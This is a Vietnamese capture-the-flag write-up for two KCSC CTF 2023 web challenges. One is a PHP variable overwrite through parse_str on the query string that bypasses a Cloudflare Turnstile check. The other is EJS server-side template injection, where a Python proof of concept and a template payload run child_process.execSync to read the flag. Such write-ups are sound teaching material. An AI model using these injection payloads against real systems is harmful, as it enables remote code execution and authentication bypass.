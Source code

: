 # Bypass Captcha 
Đây là một bài mà team mình đã giải được trong giải vừa qua sau khi bắt được các tín hiệu vũ trụ từ các bậc tiền bối

![image](https://github.com/duypt02/KCSC-CTF-2023/assets/86275419/713a11b4-b200-41e0-a552-65db26000258)

## Description
Khi truy cập vào URL của BTC cung cấp ta nhận được một trang web nhập PASSWORD để unlock flag, hành động được verify bằng capcha của Cloudflare

### Review source code, tìm root-cause
Sau khi ta verify capcha và submit password thì data gửi lên sẽ như sau:

![image](https://github.com/duypt02/KCSC-CTF-2023/assets/86275419/c387ddbc-d623-4338-b84e-b346040442e2)

Sẽ có 2 param được gửi lên server là password mà ta nhập vào và mã capcha của cloudflare trả về cho client (mã capcha này được đăng ký bởi chủ sở hữu của trang web với cloudflare)

Trên server đoạn code sau sẽ xử lý việc kiểm tra Password và mã capcha
```
<?php
include 'config.php';
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $passwd = $_POST['passwd'];
    $response = $_POST['cf-turnstile-response'];
    $ch = curl_init($SITE_VERIFY);
    curl_setopt($ch, CURLOPT_POST, true);
    curl_setopt($ch, CURLOPT_POSTFIELDS, [
        'secret' => $SECRET_KEY,
        'response' => $response
    ]);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    $data = json_decode($data);
    $now = time();
    $challenge_ts = strtotime($data->challenge_ts);
    if ($data->success == 1 && $now - $challenge_ts <= 5) {
        if ($passwd === $PASSWD) {
            die($FLAG);
        } else {
            die('Wrong password!');
        }
    } else {
        die('Verify captcha failed!');
    }
}
?>
```
Ở đây ta thấy rằng đầu tiên server sẽ xác thực capcha của client gửi lên bằng cách gửi secret key của chủ sở hữu trang web và mã capcha của client lên cloudflare

Nếu mã capcha của client là đúng và thời gian từ lúc người dùng xác thực capcha với cloudflare thành công tới lúc server kiểm tra xong mã capcha đó dưới 5s thì sẽ trả về flag

Ta sẽ phân tích thêm một số file code khác được cung cấp từ BTC

File config:
```
<?php
$SITE_VERIFY = getenv('SITE_VERIFY');
$PASSWD = getenv('PASSWD');
$FLAG = getenv('FLAG');
$SITE_KEY = getenv('SITE_KEY');
$SECRET_KEY = getenv('SECRET_KEY');
parse_str($_SERVER['QUERY_STRING']);
echo $_SERVER['QUERY_STRING'];
echo "<br>";
echo $PASSWD;
error_reporting(0);
```

Ở đây chứa các biến được gán giá trị từ việc lấy các giá trị trong các biến môi trường của server, các biến môi trường này ta có thể xem được trong file Docker được BTC cung cấp

Trở lại đoạn code trên ta sẽ đặc biệt chú ý vào biến `$_SERVER['QUERY_STRING']`, đây là một biến GLOBAL trong PHP chứa chuỗi truy vấn của URL hiện tại, ví dụ: trong URL `https://bypass-captcha.kcsc.tf/index.php?passwd=123&test=kcsc`, truy vấn của URL là `passwd=123&test=kcsc`. Trong trường hợp này, `$_SERVER['QUERY_STRING']` sẽ chứa giá trị `"passwd=123&test=kcsc"`

Sau khi qua hàm `parse_str()` nó sẽ phân tích truy vấn của URL để trích xuất các tham số và giá trị riêng lẻ, ví dụ: 
```
parse_str("passwd=123&test=kcsc")
echo $passwd;
//123
echo $test
//kcsc
```
-> Vậy từ công dụng của `parse_str($_SERVER['QUERY_STRING'])` ta có thể nhận thấy rằng các biến bên trên có thể bị ghi đè 

## Solution
Sau khi có ý tưởng ghi đè các biến bên trên bằng `QUERY_STRING` thì ta có giải quyết bài này bằng cách sau:
+ C1: Ghi đè biến `PASSWD` và nhanh tay gửi capcha tới server sao cho thời gian <5s

+ C2: Ta sẽ ghi đè `PASSWD` và ghi đè `SITE_VERIFY` (do ta có thể kiểm soát được kết quả trả về)

Trong giải này team mình làm theo cách 1:

![image](https://github.com/duypt02/KCSC-CTF-2023/assets/86275419/b5f2bfbc-e359-49ab-9eaa-cd5c71325546)

Flag: `KCSC{Bypass_Turnstile_Cloudflare_1e22c0f8}`

# valentine (stolen) 
![image](https://github.com/duypt02/KCSC-CTF-2023/assets/86275419/95d4588f-ebcf-4cce-a42d-e8ab20db09e8)

## Description
Bài này trong giải vừa qua mình đã không giải được do kiến thức về SSTI còn quá gaf, sau khi giải kết thúc được người ae 5h4s1 cùng lớp hint là có một bài write-up khác có thể áp dụng để giải thì mình đã áp dụng  thành công

Link WU: https://hxp.io/blog/101/hxp-CTF-2022-valentine/

Đầu tiên khi vào Challenge BTC cung cấp cho một file chứa toàn bộ Source code và file Docker

![image](https://github.com/duypt02/KCSC-CTF-2023/assets/86275419/7b3a9622-c578-4f29-9dbe-7a0eb66570a3)

File flag nằm ở ngoài web root + WU liên quan tới SSTI nên chắc chắn ta sẽ phải RCE để đọc flag (đọc thông qua việc thực thi file readFlag)

Mình custom lại PoC của WU, hiểu nôm na là họ sẽ sử dụng kỹ thuật `SSTI using EJS custom delimiters` 

```
import requests
import re

HOST = 'https://valentine.kcsc.tf'

r = requests.post(f"{HOST}/template", data={"tmpl":"""{{ name }} <.= global.process.mainModule.require('child_process').execSync('/readflag') .>"""}, allow_redirects=False)

m = re.search(r"/(?P<uuid>.*)?name=", r.text)
r = requests.get(f"{HOST}{m.group(0)}&delimiter=.")
m = re.search(r"KCSC\{[^}]+\}", r.text)
print(m.group(0))
```
EJS custom delimiters sẽ được sử dụng để định nghĩa một delimiter mới, trong bài này sử dụng delimiter mặc định là `%`

* Note: Do trong bài có kiểm tra template gửi lên có chứa `{{name}}` hay không nên ta sẽ phải thêm chuỗi này vào template

![image](https://github.com/duypt02/KCSC-CTF-2023/assets/86275419/9fb5f140-93b8-4b31-b4fd-62cd3d3940e3)

Chạy PoC ta được Flag:

![image](https://github.com/duypt02/KCSC-CTF-2023/assets/86275419/fd5e1a20-1085-4967-9fa6-7dbec5b7852a)

### Sau khi một số team public WU thì mình có biết thêm 1 cách dễ hiểu hơn

Do challenge không filter `{{` và `}}` mà chỉ chuyển nó sang dạng `<%=` và `%>`mà 2 dang này vẫn có thể thực thi code bình thường. Do đó ta có thể chèn 2 chuỗi template trong cùng 1 lần gửi lên

`{{ name }} 
{{ process.mainModule.require('child_process').execSync('/readflag').toString() }}`

![image](https://github.com/duypt02/KCSC-CTF-2023/assets/86275419/48742e30-c445-4a74-9725-ebab2359032c)

Kết quả:

![image](https://github.com/duypt02/KCSC-CTF-2023/assets/86275419/b6ea3536-8809-4dea-ae51-c6403ad2fc2b)

Flag: `KCSC{https://www.youtube.com/watch?v=A5OLaBlQP9I}`



